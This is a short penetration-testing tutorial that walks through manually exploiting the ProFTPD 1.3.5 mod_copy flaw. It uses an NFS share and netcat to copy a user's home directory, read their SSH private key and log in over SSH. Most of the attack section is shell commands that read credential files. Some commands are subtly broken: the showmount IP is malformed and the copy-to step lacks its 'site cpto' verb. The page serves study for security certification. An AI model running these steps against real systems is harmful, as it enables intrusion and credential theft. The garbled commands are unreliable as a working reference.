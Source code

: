 # Practical Exploitation

## Practical Exploitation?

Sometimes we're faced with exploits that require more than one service to be running in order for the exploit to work, however, they might be situations in which we don't have one service that's required for the exploit to work but oddly enough we may face another port from which we can take advantage of to successfully exploit the vulnerability manually. This process is very practical and thorough, let's take this simple case scenario:

After some recon and some enumeration, we found that NFS is running and that ProFtpd 1.3.5 is running but HTTP isn't.

Performing some searching for exploits shows that this version of ProFtpd is vulnerable:

{% embed url="https://www.exploit-db.com/exploits/36803" %}

However, at inspecting the exploit we can see that it uses a PHP Payload and HTTP URL but our target doesn't have HTTP running.

Let's startup with what we have, NFS and FTP.

Starting up with NFS:

```text
showmount -e 172.31.122
mount -o default 172.31.1.22:/var/nfsbackups nfss/
ls nfss
```

NFS is mounted but does not have any contents.

Let's continue with FTP and let's follow the exploitation taken in the exploit by manually executing the commands:

```text
nc -vvv 172.31.1.22 21
ftp>site cpfr /home/daniel
ftp>/var/nfsbackups/daniel
ftp>exit
cat nfss/daniel/.ssh/id_rsa
cat nfss/daniel/.ssh/id_rsa.pub
ssh -i id_rsa daniel@172.31.1.22
```

This way, we were able to successfully exploit the system manually, gain some SSH keys, and used them to authenticate to the target.

## Reference

The scenario was taken from here:

{% embed url="https://www.bytefellow.com/oscp-ultimate-cheatsheet/\#ftoc-exploiting-nfs-and-ftp" %}



